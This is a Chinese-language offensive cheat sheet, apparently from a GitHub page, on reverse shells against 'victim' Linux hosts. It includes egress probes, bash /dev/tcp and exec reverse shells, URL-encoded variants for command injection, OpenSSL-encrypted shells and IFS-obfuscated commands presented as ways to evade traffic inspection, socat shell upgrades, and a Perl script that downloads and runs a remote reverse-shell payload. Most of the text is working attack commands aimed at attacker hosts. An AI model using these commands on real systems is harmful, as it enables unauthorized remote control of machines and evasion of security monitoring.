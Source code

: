### 1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
### 2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
Linux受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
Windows受害机上执行：ping -l 65 -n 1 xx.xx.xx.xx
```
# 3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xxx.dnslog.cn
查看反连平台

想要修改hosts，经测试，如下这种是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
### 3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```
### 4、反弹shell
```
bash反弹shell：
VPS上执行：nc -n -v -lp 1024
受害机上执行：/bin/bash -i >& /dev/tcp/<your_vps>/1024 0>&1
需要注意，当在URL地址栏或burp中进行命令注入利用时，需执行：/bin/bash -i %3E%26 /dev/tcp/xx.xx.xx.xx/1024 0%3E%261

exec反弹shell：0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
### 5、绕过流量审查反弹shell
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect xx.xx.xx.xx > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
### 6、将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为全功能的shell

如果拿到的shell执行Ctrl-z会退出会话，可考虑使用socat的方案：

攻击机：
socat file:`tty`,raw,echo=0 tcp-listen:4444
受害机：
curl -o /tmp/socat http://192.168.81.160:8000/socat 或者 wget -O /tmp/socat http://192.168.81.160:8000/socat
chmod u+x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
此时拿到的shell可以执行删除、可以选择历史命令、可以执行ctlr-c
```
### 参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://saucer-man.com/information_security/233.html#cl-1  



perl反弹shell  
用于生成下载脚本的bash命令：
```
echo use LWP::Simple\;\$url=\"http://1.1.1.1/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行后生成d.pl，再执行d.pl下载r.pl，r.pl（用于反连的perl脚本）如下：
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```

#### perl有一个不调用bash的反弹shell

1、bash反弹shell  
attack执行：nc -lvp 2333  
victim执行：
```
bash -i >& /dev/tcp/1.1.1.1/2333 0>&1
```
# linux下bash反弹shell绕过流量检测设备
```
bash -c 'exec bash -i &>/dev/tcp/120.48.45.46/12345 <&1'

bash -c bash${IFS}-i${IFS}>&/dev/tcp/120.48.45.46/12345<&1
```
参考链接：https://blog.csdn.net/whatday/article/details/107098353